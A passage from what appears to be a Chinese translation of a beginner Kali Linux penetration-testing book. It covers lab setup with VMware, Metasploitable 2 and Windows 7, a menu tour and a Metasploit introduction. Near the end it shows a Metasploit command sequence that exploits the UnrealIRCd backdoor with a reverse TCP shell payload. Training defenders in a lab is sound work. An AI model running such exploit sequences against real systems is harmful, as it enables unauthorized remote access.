# Kali Linux 基础安全测试：使用攻击者策略测试计算机系统安全

使用与攻击者相同的战术来测试你的计算机系统安全。

感谢我的家人对我无尽的支持和祈祷，你们真的是是上帝赐予的礼物！感谢我在信息安全和网络安全社区的朋友们与我分享你们的知识和时间。还要感谢我们当地书作家俱乐部的朋友们（特别是你，Bill！），没有了你们的见解、陪伴和建议，这一切绝不会发生。

> 兵法云：“知彼知己，百战不殆。” —— 孙子

> “你们要看，我把你们派出去，像狼群中的羊一样；所以要像蛇一样机灵，像鸽子一样单纯。” —— 马太福音 10:16 (KJV)

## 关于作者

Daniel W. Dieterle 在 IT 领域工作了 20 多年。在此期间，他在一家计算机支持公司工作过，为纽约州北部和整个宾夕法尼亚州的数百家公司提供计算机和网络支持。

他还在一家财富 500 强企业的数据中心工作过，在一家常春藤学院的计算机支持部门短暂工作过，并在一家电气工程公司担任过主管。

在过去的 5 年里，Daniel 完全专注于安全领域。他创建并创办了“CyberArms 计算机安全博客”，他的文章发表在国际安全杂志上，并被技术实体和媒体引用。

Daniel 协助过许多安全培训课程和技术训练书籍，主要基于 Backtrack 和 Kali Linux。

`Cyberarms@live.com`

`Cyberarms.wordpress.com`

## 目录概览

- `Netdiscover`
- 过滤器指南
- 组合搜索
- 扫描目标
- 使用额外的扫描器
- 攻击 Samba 服务

### 第 9 章 - 使用 Veil 绕过 Windows AV
- 安装 Veil
- 获取远程 shell

### 第 10 章 - 通过绕过 UAC 实现 Windows 权限提升 UAC Bypass

### 第 11 章 - 数据包捕获与中间人攻击 使用 Etterpoof 创建中间人攻击
- 使用 Urlsnarf 查看 URL 信息
- Metasploit 中的远程数据包捕获
- Xploit

### 第 12 章 - 使用浏览器漏洞利用框架 BeEF 实战

### 第四部分 - 社会工程学

#### 第 13 章 - 社会工程
- 简介
- 社会工程防御

#### 第 14 章 - 社会工程工具包 (SET)
- 启动 SET
- 批量邮件发送器
- SET 的 Java Pynector 攻击
- 社会工程工具包：PowerShell 攻击向量
- 使用 SET 进行更高级的攻击

#### 第 15 章 - 欺骗术
- 使用 Subterfuge 进行自动浏览器攻击
- 浏览器自动攻破

### 第五部分 - 密码攻击

#### 第 16 章 - 破解简单的 LM 哈希
- 在线破解 LM 密码
- 在 Kali 中查询哈希

#### 第 17 章 - 哈希传递 (Pass the Hash)
- 使用 Psexec 进行哈希传递
- 哈希传递

利用公司管理层设定的参数和指南等技术来发现安全问题。

随后，他们向管理层报告发现的结果并协助纠正这些问题。

> 我们不会涵盖过程中的每一个步骤，但将向你展示许多使用的技术，以及如何防御这些技术。

我认为 Kali 优于商业安全解决方案的最大驱动因素是价格。安全测试工具可能极其昂贵，而 Kali 是免费的！其次， Kali 包含了许多商业安全产品的开源版本，因此你理论上可以简单地使用 Kali 替代昂贵的程序。

尽管 Kali 确实包含了几个流行软件的免费版本，这些版本可以升级到全功能的付费版本并通过 Kali 直接使用。

Backtrack 和 Kali 之间没有重大的工具使用差异。Kali 基本上是 Backtrack 6 版本，或者 Backtrack 的最新版本。但它已经从底层开始完全重新工具化，使得软件更新和添加变得简单得多。

在 Backtrack 中，更新某些程序似乎会导致其他程序崩溃；而在 Kali 中，你使用 `kali update` 命令更新一切，这能更更好地保持系统的完整性。

只需更新 Kali，它就会下载所包含工具的最新版本。提醒一下，单独更新工具可能会破坏 Kali，所以运行 `Kali update` 始终是获取操作系统最新包的最好方法。

我承认，我在原始版 Backtrack 中喜欢的一些工具在 Kali 中缺失了。这并不是什么大问题，因为 Kali 中的另一个工具很可能执行相同或类似的功能。而且，如果你需要，你也可以安装其他程序。

除了 Kali 的独立实例和虚拟机实例，我还在树莓派（Raspberry Pi）上使用 Kali —— 一种信用卡大小的 ARM 架构电脑。有了 Kali，你几乎可以在 Pi 上做任何你在全尺寸系统上能做的事情。在我书中，我将介绍 Pi 作为一个包括无线网络在的安全测试平台。

用一台你可以放进口袋的电脑来测试网络，那有多酷呢？

虽然 Kali 不可能包含每个个人偏好的所有可能的安全工具，但它包含的内容足够让你从头到尾使用 Kali。不要忘记 Kali 不仅仅是一个安全工具，更是一个完整的 Linux 操作系统。因此，如果你喜欢的工具在 Linux 下运行但未包含在内，你很可能可以在 Kali 中安装并运行它。

## 伦理黑客问题

伦理黑客：安全测试员基本上就像黑客。他使用黑客最可能使用的工具和技术来测试目标网络的安全性。区别在于，渗透测试员是由公司聘佣来测试其安全性的，并在完成后向领导团队展示他们是如何进入的，以及他们可以做些什么来堵住漏洞。

我在使用这些技术时看到的最大问题是伦理和法律。你使用 Kali 及其内置工具可以进行的某些安全测试在某些地区实际上是非法的。用户在使用 Kali 之前检查他们当地、州法律和联邦法律是非常重要的。

此外，你可能会发现某些用户在他们没有许可的网络上使用 Kali 这一套非常强大的工具。或者他们将尝试在生产网络上使用一种他们学过但可能尚未精通的技术。

所有这些都是潜在的法律和伦理问题。

## 本书范围

本书侧重于具有 Backtrack/Kali 初级到中级经验的人士。我认为对于想要进入该领域的网络管理员和非安全 IT 专业人员来说，这也会是一个很好的工具。

我们将涵盖从 Kali 的基本概述到使用包含的工具对 Windows 和 Linux 系统进行安全测试的所有内容。我们将涵盖社会工程、Wi-Fi 安全、在树莓派上使用 Kali、破解密码、从侦察到发现及利用漏洞的基础计算机安全测试，最后是保护你的系统。

## 为什么我要写这本书？

我已经写了多年关于 Backtrack 的技术文章，并协助编写了多本 Backtrack/Kali 书籍和培训系列。我收到很多关于如何使用 Kali/Backtrack 的问题，因此决定是时候写我自己的初级指南了。

我写这本书的另一个原因是帮助对计算机安全领域感兴趣的年轻人。美国目前在年轻专业人士选择职业方面面临着危机，网络安全领域也不例外。

美国政府需要数千万¹网络战士，一些行业专家甚至建议美国考虑从其他国家招聘安全专家²来填补这一空白。

花几分钟考虑一下。

数字游戏对我们不利。美国是互联网用户最多的国家，81% 的人口已连接。现在考虑一下中国排名第三³，用户数量几乎是我们的两倍。而他们的连接率仅为 41% 左右！

尽管许多人认为美国在网络攻击能力方面排名第一，但我们的防御排名并不高。随着外国在网络安全领域的显著进展，美国需要让尽可能多的才华横溢进入进入领域，而且需要尽快行动。

绝不要尝试访问或安全测试任何你没有书面许可的网络或计算机。这样做可能会让你面临法律诉讼，你最终可能会入狱。

书中的信息仅供教育目的。

我没有创建任何任何工具，也不代表 Kali Linux 或 Offensive Security。

书中任何错误、失误或教程问题均为我个人所有，请告知我哪里搞错了。

感谢 Kali 开发者创造了如此出色的产品！

## 参考文献

1. https://www.csmonitor.com/USA/2011/0509/What-US-cybersecurity-needs-a-few-more
2. https://www.theguardian.com/technology/2012/jul/10/us-master-hackers-al-qaida
3. https://en.wikipedia.org/wiki/List_of_countries_by_number_of_Internet

# 第一部分：安装与基本概述

## 第二章 - 使用 VMWare 安装 Kali

资源 - http://www.vmware.com/

* VMware
* Kali 安装指南 - http://docs.kali.org/category/installation
* Kali 下载 - http://www.kali.org/downloads/
* Kali 存储库 - http://docs.kali.org/general-use/kali-linux-sources-list
* Metasploitable 2 - http://sourceforge.net/projects/metasploitable/files/Metasploitable2/
* Microsoft评估软件 - http://technet.microsoft.com/en-us/evalcenter

### 引言

在本节中，我们将主机计算机上的 VMWare Player 将 Kali Linux、Windows 7 和 Metasploitable 2 为虚拟机 (VM)。

使用虚拟机设置我们的测试实验室使得使用 Kali 进行攻击测试变得非常简单。

虚拟机使得在单台计算机上运行多个操作系统成为可能。这样我们就不需要满房间的电脑来搭建测试和学习环境。我们只需要一台足够运行多个虚拟机会话的机器。

书中我使用的是带有 8 GB 内存的 Windows 7 Core I-5 系统。它有足够的功率运行我们的三个实验室操作系统，毫无问题。

如果你有虚拟系统的经验，可以使用任何你喜欢的虚拟机软件。但对于教程，我将使用 VMWare Player 作为主机软件，然后在独立的虚拟机中安装 Kali、Metasploitable 2 和 Windows 7。

完成后，你应该拥有一个看起来像这样的小网络：

由于我们将处理的是存在漏洞的操作系统，请确保在宿主机系统和真实互联网之间有一个防火墙路由器（最好是硬件的）。

### 安装 VMware Player & Kali

在 VMware 上安装 Kali 极其简单，因为 Offensive Security 提供了一个可以下载的 Kali VMware 镜像，所以我们不会在这件事上花费太多时间。

下载并安装适用于你操作系统版本的 VMware Player。

1. 下载并安装 VMware Player (https://my.vmware.com/web/vmware/downloads)



2. 同意许可协议并选择你想要安装的位置，通常使用默认设置即可。

3. 完成后点击“完成”（Finish）。

下载 Kali 镜像 (http://www.kali.org/downloads/) 并将其保存到你想要运行的地方。（注意：对下载的镜像进行 SHA5 是一个好习惯，以验证你拥有的是正版。有很多像 Zip-Zip 这样的程序非常好用。）



4. 解压并提取下载的镜像。



5. 启动 VMware Player。

6. 点击菜单中的“Player”。

7. 然后点击“文件”（File）。

8. 接下来点击“打开”（Open）。

9. 浏览到提取出的 `.vmx` 文件，选择它并点击“打开”。

10. 它现在会显示在 VMware 主界面上。



11. 选中 Kali 后点击“编辑虚拟机”（Edit Virtual Machine）。

12. 在此处查看并更改虚拟机的任何设置：

13. 点击“网络适配器”（Network Adapter）：

默认设置为 NAT。这对于我们要做的工作已经足够。NAT 意味着每台机器会在它们以及宿主机之间创建一个较小的 NAT 网络；如果需要，它们也可以访问互联网。每台机器都将获得一个 DHCP IP 地址，这意味着当你重启它们时 IP 地址可能会变化。如果你需要知道 Kali 或 Metasploitable 的 IP 地址，只需在终端窗口中输入 `ifconfig`。在 Windows 虚拟机上，只需在命令提示符中输入 `ipconfig`。

14. 点击“取消”（cancel）返回 VMware 主界面。

15. 现在只需点击“播放虚拟机”（Play Virtual Machine）即可启动 Kali。你可能会收到一条消息询问虚拟机是否已移动或复制，只需点击“我已复制它”（I copied it）。

16. 当提示安装 VMware Tools 时，选择稍后安装。

17. 当 Kali 启动时，你将进入登录界面：


18. 点击“其他”（Other），然后用用户名“root”和密码“root”（root 倒过来）登录。

19. 然后你将登录 Kali 并看到主桌面：



恭喜，你做到了！

### 更新 Kali

我们稍后会介绍如何在 Kali 中进行操作，但首先，我们需要将 Kali 更新到最新版本。虚拟机镜像有点旧，因此有很多更新可能需要一些时间来下载。

1. 打开终端窗口：


2. 输入 `apt-get update` 并按回车键：

```bash
root@kali:~# apt-get update
Get 1 http://http.kali.org/kali InRelease [22.0 kB]
Get 1 http://http.kali.org/kali/updates InRelease [11.8 kB]
Get 3 http://http.kali.org/kali/main Sources [7,535 kB]
Ign http://http.kali.org/kali/contrib Translation-en-US
Ign http://http.kali.org/kali/contrib Translation-en
Ign http://http.kali.org/kali/main Translation-en-US
Ign http://http.kali.org/kali/main Translation-en
Ign http://http.kali.org/kali/main-non-free Translation-en_US
Ign http://http.kali.org/kali/main-non-free Translation-en
```

```bash
root@kali:~# apt-get dist-upgrade
Reading package lists... Done
Building dependency tree
Reading state information... Done
Calculating upgrade... Done
The following packages will be REMOVED:
console-tools icedtea-jre-cacao libopenv5
```

3. 当提示需要额外的磁盘空间时，输入“y”并回车。

这可能需要很长时间，所以这可能是休息的好时机，你应得的！

4. 完成后，重启。

技术提示：

如果你愿意，可以手动向 Kali 添加额外的源仓库。例如，如果你想要绝对最新最强大的功能，可以向 Kali 添加“Bleeding Edge”仓库。但这些仓库带有警告，它们不是手动维护的且优先级较低。

更多信息请访问：

http://docs.kali.org/general-use/kali-linux-sources-repositories


就是这样；Kali 现在已经安装、更新并准备就绪。我们将在下一节中详细查看桌面。

## 为 Linux 安装 VMware Tools

当 Kali 启动时，如果你想将 VMware Tools 安装到操作系统中，将会弹出的窗口。这允许操作系统运行得更好，让你控制视频选项并具有与主机的复制/粘贴功能。你不需要安装它们，但它们会让运行更顺畅一些。当你看到下面的弹出消息时，点击“下载并安装”（`Download and Install`）：



工具将开始下载：



允许工具安装，完成后点击“关闭”（`Close`）。

## 安装 Metasploitable 2

Metasploitable 2 是我们将练习的故意漏洞 Linux 操作系统，也可以以虚拟机的形式提供。和处理 Kali 虚拟机一样，我们只需要下载 Metasploitable 2 镜像，解压并用 VMware Player 打开它。就简单。

- 1. 下载 Metasploitable 2 (`http://sourceforge.net/projects/metasploitable/files/Metasploitable/`) 并将其放在你想要的文件夹中。
- 2. 解压文件。

| 文件名 | 大小 | 类型 |
| :--- | :--- | :--- |
| Metasploitable.nvram | 45 KB | NVRAM 文件 |
| Metasploitable.vmdk | 900 MB | 虚拟机磁盘 |
| Metasploitable.msd | 1 KB | VMS 文件 |
| Metasploitable.vmx | 1 KB | 虚拟机 |
| Metasploitable.vmf | 1 KB | VMX 文件 |

- 3. 然后通过启动 VMware、点击“文件”（`File`）、“打开”（`Open`）、浏览并选择 `Metasploitable.vmx` 文件并点击“打开”，在 VMware 中打开 Metasploitable 2。
- 4. 它现在会显示在 VMware 菜单中：



- 5. 现在进入 Metasploitable 的“编辑虚拟机设置”，确保网络接口设置为“NAT”：



Metasploitable 现在已就绪。

*** 警告 *** Metasploitable 是故意留漏洞操作系统。千万不要直接运行在互联网上。确保在你的主机系统和互联网之间安装了防火墙。

- 6. 直接“播放”（`Play`）Metasploitable 系统，如果询问虚拟机是否已移动或复制，点击“我已复制它”。

你现在应该看到 Metasploitable 桌面：

```
警告：不要将此虚拟机暴露在不可信的网络中！
联系方式：msfdev@metasploit.com
使用 msfadmin/msfadmin 登录

metasploitable login:
```

- 7. 使用屏幕上的凭据登录。

   用户名：`msfadmin`

   密码：`msfadmin`

- 8. 在终端提示符输入 `ifconfig` 获取 Metasploitable 机器的 IP 地址：

```
msfadmin@metasploitable:~$ ifconfig
eth0 Link encap:Ethernet
inet addr:192.168.198.129
```

情况下 IP 地址为 192.168.198.129。由于我们使用了 DHCP，当我们关闭并重新启动系统时，IP 地址可能会变化。所以如果遇到通信问题，检查并验证它们是一个好习惯。

我们现在已经建立了 Metasploitable 和 Kali 系统。

## Windows 虚拟机

在书中我也使用了一个 Windows 7 虚拟机（在几个示例中使用了 Windows XP 虚拟机）。你以前可以直接从微软下载（30-90 天的）Windows 7 企业评估版，但现在看起来大多数链接都指向你的 Windows 8.1 企业评估版：

`http://technet.microsoft.com/en-us/evalcenter/hh669156`

所以如果你想跟进 Windows 7（或 XP）章节，你需要在 VMware Player 中安装授权版的 Windows 7。

我将不会介绍如何在 VMware Player 中安装 Windows 7，但基本上你只需要 Windows 7 光盘和安装密钥，并通过点击“新建安装”（`New Install`）然后指向你的光驱驱动器来进行全盘安装：

然后按照照常步骤安装 Windows 7。

完成后，你将拥有一个 Windows 7 虚拟机：



检查它的网络设置，确保它也是使用 NAT 进行网络：

| 设备 | 摘要 | 设备状态 |
|---|---|---|
| 设备 | 1 GB | 已连接 |
| 内存 | | 启动时连接 |
| 处理器 | | |
| 硬盘 (SCSI) | 40 GB | |
| CD/DVD (IDE) | 自动检测 | |
| 软磁盘 | 自动检测 | |
| 网络适配器 | | 桥接：已直接连接到物理网络（Bridged） |
| USB 控制器 | 已存在 | 复制物理网络连接状态 |
| 声卡 | 自动检测 | 配置适配器 |
| 打印机 | 已存在 | NAT：用于共享主机的 IP 地址 |
| 显示器 | 自动检测 | 仅主机：与主机的私有网络连接 |
| | | 自定义：特定的虚拟网络 |

运行虚拟机并在 Windows 7 命令提示符中运行 **“ipconfig”** 以查看它的 IP 地址是多少：

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. 保留所有权利。

C:\Users\Fred>ipconfig
Windows IP 配置
以太网适配器局域网:
IPv4 地址.. . . . . . . . . . . . . : 192.168.198.130
```

最后，如果你愿意，在提示时安装适用于 Windows 的 VMware Tools：



大功告成，你现在应该在一个微型网络中拥有三个虚拟机，你可以用它们来练习和学习基础攻击性安全渗透测试技术。

在本节中，我们学习了如何安装 VMware Player 作为虚拟主机。然后，我们在宿主机上分别安装了 Kali Linux、Metasploitable 2 和 Windows 7 作为独立的虚拟机。

我们将它们都设置为使用相同的网络（NAT），以便它们之间可以相互通信，并在需要时访问互联网。

我们在书的剩余部分将一直使用这种设置。

提醒一下，由于 VMware 的 DHCP，系统的 IP 地址可能会在重启时发生变化。我部分使用这一点，是因为在现实世界中你总是会遇到不同的目标 IP 地址。但如果你迷路了，可以在虚拟机上运行“`ifconfig`”（Linux）或“`ipconfig`”（Windows）来查找已更改的 IP 地址。

最后，千万不要在互联网上直接运行 Metasploitable，因为它是故意留漏洞的。

让我们花一点时间简单浏览一下 Kali 菜单和界面。

安装时你会注意到的最大特点之一是 Kali 是基于 Debian Linux 的，而不是 Ubuntu（之前的版本是基于 Ubuntu）。如果你习惯了 Backtrack，桌面仍然使用 Gnome，但看起来有不同的视觉效果和感受。

我们将从顶部菜单栏开始之旅。

顶部菜单包含“应用程序”（`Applications`）菜单，这是访问 Kali 中包含的所有程序的主入口；“位置”（`Places`）菜单允许你在文件系统中进行导航。接下来是 Firefox 浏览器，后面是终端提示符的快捷方式。

中间是日期和时间，右侧是音量控制图标、网络图标（你可以在此处查看和编辑网络连接），最后是用户菜单（你可以在此处访问系统设置、切换用户或注销）。

“应用程序”菜单是 Kali 中的主菜单。



在此菜单下找到以下主菜单：

- 附件菜单包含了你可以在操作系统中找到的工具。
- 电子设备选项卡包含一个用于 Arduino 板的编程实用程序。
- Kali Linux 是访问安全程序的主菜单。
- 系统工具包含系统管理员工具和偏好设置。

其余大部分一目自明。

对我们来说最重要的是 Kali Linux 菜单，在这里找到大多数安全工具。



快速查看菜单发现，Kali 已经添加了**常用安全工具**，让你能更快进入你喜欢的工具。Aircrack-ng、Burp Suite、Metasploit、Nmap、Wireshark 以及其他几个程序现在触手可及。如果你熟悉原始的 Backtrack，不用担心，所有常规工具仍然存在于一个类似的菜单中。要导航菜单，只需找到你感兴趣的主题，例如**信息收集**（`Information Gathering`），并一直向下直到找到该实用程序：

遵循主分支你会发现工具是按类型排序的。Web 应用测试可以在“Web 应用”（`Web Applications`）找到，所有与密码相关的程序都在“密码攻击”（`Password Attacks`）下，依此类推。如果你愿意，最好花几分钟浏览菜单直到熟悉它的布局。许多（如果不是大多数的话）程序可以直接从命令行运行，而且 Kali 中还包含菜单中没有的额外程序。我们将涵盖其中几个实用程序。

# 第 2 部分 Metasploit 教程

# 第 3 章 介绍 Metasploit

### Metasploit 概述

- Metasploit 站点
- Metasploit 安全公告

### 介绍

对于安全测试来说最重要的是，Metasploitable 是故意留漏洞的。


对于安全测试社区来说，Metasploit（以及 Pro 版本）是最酷的工具之一。

Metasploit 框架是一个用于进行漏洞测试和利用的综合平台。它加载了数千个漏洞、数百个有效负载以及多种编码器。

我们将在本章涵盖 Metasploit 的基础知识，并在后续章节中介绍如何针对目标使用它。如果你已经熟悉 Metasploit，可以跳过本章或将其作为参考。

# 更新

通常更新 Metasploit 只需 `msfupdate`，但根据 Rapid 7 网站，Metasploit 的更新与 Kali 同步。

# Metasploit 简介

你可以通过两种方式启动 Metasploit：从菜单或终端。

- `/Kali Linux/常用安全工具/Metasploit`
- `/Kali Linux/利用工具/Metasploit`
- 或者在终端输入 "`msconsole`"

一旦 Metasploit 加载，你将看到以下主界面并获得“`msf>`”提示符。



如果你以前没用过 Metasploit，可能会有点困惑，但一旦你习惯了它的工作原理，你就可以它做一些神奇的事情。

基本上，使用 Metasploit 攻击目标系统通常涉及：

1. 选择漏洞
2. 设置漏洞选项
3. 选择有效负载（Payload）
4. 设置有效负载选项
5. 运行漏洞
6. 连接到远程系统
7. 执行后渗透

下面的截图显示了过程的一个示例，但不用担心；我们将在后的学习中详细地介绍该过程。

```
msf > use unreal/linux/unreal_ircd_3281 backdoor
msf > exploit(unreal_ircd_3281 backdoor) > set RHOST 192.168.12.20
msf > exploit(unreal_ircd_3281 backdoor) > set RHOST 192.168.12.20
msf > set PAYLOAD generic/shell_reverse_tcp
msf > exploit(unreal_ircd_3281 backdoor) > set LHOST 192.168.12.34
msf > exploit
```

取决于利用的类型，一旦我们的利用完成，我们通常会获得计算机的远程 shell（remote shell）或 Meterpreter shell。

远程 shell（remote shell）本质上是一个远程终端连接，或者 Windows 用户远程桌面的文本版本。它允许我们像坐在键盘前一样输入命令。

